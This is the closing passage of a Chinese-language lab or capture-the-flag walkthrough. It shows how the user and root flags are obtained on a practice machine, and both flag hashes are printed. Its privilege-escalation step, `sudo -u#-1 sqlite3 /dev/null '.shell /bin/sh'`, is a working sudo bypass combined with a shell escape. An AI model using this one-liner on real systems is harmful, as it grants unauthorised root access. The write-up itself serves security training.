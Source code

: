 ![image-20210305184006213](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305184006213.png)

## 七、获得user.txt

获得第一个flag：user.txt

```text
cd /home/frank
cat user.txt
```

![627BED4DAF5A2EAAAA1DE963F5B6500A](https://gitee.com/Harveysn0w/mac-note_img/raw/master/627BED4DAF5A2EAAAA1DE963F5B6500A.jpg)

```text
22854d0aec6ba776f9d35bf7b0e00217
```

## 八、提权

查看`sudo -l`，`crontab -l`，`id`等，此处可以利用suid提权

```text
sudo -l
```

![B39D3E6C-8263-4AA9-8D5D-CF9FEEB5A04F](https://gitee.com/Harveysn0w/mac-note_img/raw/master/B39D3E6C-8263-4AA9-8D5D-CF9FEEB5A04F.png)

sudo提权辅助网站：[https://gtfobins.github.io/gtfobins/sqlite3/](https://gtfobins.github.io/gtfobins/sqlite3/)

![image-20210305185209650](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305185209650.png)

![image-20210305185245458](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305185245458.png)

提权时候会让输入密码，使用sudo -u\#-1绕过限制进行执行

```text
sudo -u#-1 sqlite3 /dev/null '.shell /bin/sh'
```

![image-20210305185415125](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305185415125.png)

## 九、获得root.txt

进入root用户文件夹获得flag

```text
cd /root
cat root.txt
```

![image-20210305185640503](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305185640503.png)

```text
96440606fb88aa7497cde5a8e68daf8f
```

## Done!

